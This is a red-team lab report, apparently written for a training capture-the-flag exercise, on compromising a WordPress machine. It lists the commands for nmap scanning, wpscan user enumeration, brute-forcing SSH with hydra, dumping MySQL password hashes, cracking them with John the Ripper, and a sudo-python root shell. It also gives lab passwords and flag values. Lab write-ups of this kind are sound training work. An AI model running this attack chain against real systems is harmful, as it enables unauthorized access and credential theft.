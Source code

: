 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

   - $nmap -sP 192.168.1.1-255: This namp scan scans the full 192.168.1.1 network for any live hosts available. It revealed to hosts up: 192.168.1.110 and 192.168.1.115.

     - https://github.com/D7Carivs/Red-Blue-Network/blob/8d270379a8e0adfe76fd3abdc87911b389e9f9b5/Offensivereport/screenshots/Kali%20nMap%20scan%20of%20network.PNG
  
   - $nmap -sV 192.168.110: This scan was then ran to reveal any open ports and running services. Port 80 and 22 were left open and vulnerable. These ports were exploited in the attack. 
    
     - https://github.com/D7Carivs/Red-Blue-Network/blob/512c4f050f9bb360678b287645b18518528c6a6e/Offensivereport/screenshots/nmap%20192.168.1.110%20ports%20open.PNG

     - https://github.com/D7Carivs/Red-Blue-Network/blob/512c4f050f9bb360678b287645b18518528c6a6e/Offensivereport/screenshots/nmap%20scan%20report%20for%20192.168.1.110.PNG


   - $wpscan --url http://192.168.1.110/wordpress -eu: This scan was then used to find users and vulnerabilities on the host. Users Steven and Michael were found with Brute force attack vulnerability. These two usernames could be used to access root on the host system. 

     -  https://github.com/D7Carivs/Red-Blue-Network/blob/622ca8e810773ae1f79aeb06bf73be2f99b5bc4b/Offensivereport/screenshots/wpscan%20usernames.PNG

   - Port 22 was then used to ssh into 192.168.1.110 as Michael after using hydra to crack his password. He used his name (michael) as his password. 

     - https://github.com/D7Carivs/Red-Blue-Network/blob/d08f9c86548a37b0983556be6dd0689e8111a3a1/Offensivereport/screenshots/hydra%20michael%20password.PNG

     - https://github.com/D7Carivs/Red-Blue-Network/blob/c2e216333f3123128eaa7c49d06bbebdd8bfda6b/Offensivereport/screenshots/ssh%20michael@192.168.1.110%20password%20michael.PNG

- **The following vulnerabilities were found during the exploitation:**

  - Network Mapping and User Enumeration(WordPress site)
  - Unsalted User Password Hash(WordPress database)
  - Weak User Password
  - MySQL Database Access
  - MySQL Data Exfiltration
  - Misconfiguration of User Privileges or Privelege Escalation
   
- **Description in order of above vulnerabilities:**
  - Nmap was used to discover open port accessibility
  - Wpscan was used to gain username information
  - User password was weak and hydra was able to crack it easily
  - A file was discovered containing login information for MySQL database
  - Password hashes of the users were discovered when viewing MySQL database
  - It was also discovered Steven had sudo privileges for python
- **The following impacts occur due to these vulnerabilities in same order as previous**
  - Open ports are discoverable and attacks can be tailored accordingly
  - Username information can be used to access the web server
  - Weak password will allow and ssh access attack into the web server
  - The login information can be used to gain access to MySQL database
  - The password hashes were able to be saved to a file and cracked using John the Ripper
  - Steven's sudo privileges in python were able to be accessed and escalated to root.       

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - ssh michael@192.168.1.110
      - password:michael
      - cd /var/www/
      - grep -RE flag html
       
      - https://github.com/D7Carivs/Red-Blue-Network/blob/269f2afc3d16535eaf4fd059822e3c9e63931638/Offensivereport/screenshots/Flag1%20%20stability%20flags.PNG
       
    - `flag2.txt`:flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - while still in /var/www: ls
      - cat flag2.txt
       
      - https://github.com/D7Carivs/Red-Blue-Network/blob/269f2afc3d16535eaf4fd059822e3c9e63931638/Offensivereport/screenshots/flag2.PNG
      - 
      - 'flag3.txt': flag3{afc01ab56b50591e7dccf93122770cd2}
      - michael@target1:~$ cat /var/www/html/wordpress/wp-config.php
        -This was used to view the credentials to perform a user password hash dump.
      - https://github.com/D7Carivs/Red-Blue-Network/blob/88701f52dab4a05d36f55e6fb563061e5e74c23e/Offensivereport/screenshots/wp-config%20database.PNG
      - mysql -u root-p command was used with the password information from previous command. password: r@v3nSecurity
      - mysql launched. the following commands were used:
      - show databases;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/42324a8bc3e02128c5b25eb097640413c89a541f/Offensivereport/screenshots/my%20sql.PNG
      - use wordpress;
      - show tables;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d9a5e97600bd7cf1fe6e7b89557595c75bedbc3b/Offensivereport/screenshots/mysql%20wordpress%20show%20tables.PNG
      - select * from users;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d0e8d4b4a43c4d52390870592ac152ceb9a75a88/Offensivereport/screenshots/wp_users.PNG
      - select * from wp_posts;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/42324a8bc3e02128c5b25eb097640413c89a541f/Offensivereport/screenshots/wp_posts%20flag%203.PNG
      - We then exited the target 1 machine and cracked the hashes. 
      - A wp_hashes.txt file was then created for Steven and Michael's hashes.
      - John was then used to crack the hashes. Michael's hash was not able to be cracked. However, Steven's hash was and the password revealed was pink84.
      - The following commands were used to crack the hash with john:
      - john wp_hashes.txt
      - john -show wp_hashes.txt
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d5e9bc5ff1a42a676bd6c654a71f9161e68aa990/Offensivereport/screenshots/john%20password%20cracker%20steven%20pink84.PNG
      - Root access was then able to be obtained with steven's password with the following commands:
      - ssh steven@192.168.1.110
      - pink84
      - sudo python -c 'import pty;pty.spawn("/bin/bash");'
      - cd /
      - id
      - cd /root
      - ls
      - cat flag4.txt
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d5e9bc5ff1a42a676bd6c654a71f9161e68aa990/Offensivereport/screenshots/flag%204%20steven%20root.PNG

 
      
